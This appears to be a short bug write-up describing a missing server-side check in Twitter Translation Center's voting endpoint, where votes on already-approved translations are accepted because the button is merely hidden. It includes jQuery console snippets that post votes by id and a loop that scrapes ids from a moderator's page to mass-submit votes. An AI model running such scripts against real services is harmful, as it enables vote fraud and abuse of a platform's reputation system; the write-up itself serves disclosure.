 # Twitter Translation Center Bug/Hack

**Twitter Translation Center Bug/Hack**

After analyzing the voting system of the TTC,

I noticed that the sending of the voting request was done through the POST method in the url 

```https://translate.twitter.com/translations/vote``` each translation has an id with 8 digits

When the translation is already approved, the only thing they do is hide The button, 

that's when I realized that if I take the id of this approved translation and send it with the POST method the vote would be confirmed

**Ex:**

To send I used the Browser Console, you can find by pressing the "f12"

``` 
$.ajax({
  type: "POST",
  url: 'https://translate.twitter.com/translations/vote',
  data: 'id=12345678',
});
```

#It's working!
After my theory was confirmed, I decided to automate the procedure.

If you join the profile of a TCC moderator, you may note that in the "Votes" or "Translations" area 

they will contain translations and votes already approved by this moderator..

*Ex:*

```
https://translate.twitter.com/user/MODERATOR/votes
```
With the help of JavaScript

I was able to extract the ID's of the approved translations and send them via POST as a normal voting day

```
var c = document.getElementsByClassName("toggle").length;
for (i = 0; i < c; i++){
	var id = (document.getElementsByClassName("toggle").item(i).getAttribute("data-id"));	
$.ajax({
  type: "POST",
  url: 'https://translate.twitter.com/translations/vote',
  data: 'id=' + id ,
});
console.log('foi ' + id);
}
```

![](http://whiteboyz.xyz/img/Screenshot%20from%202017-03-09%2013-26-18.png)
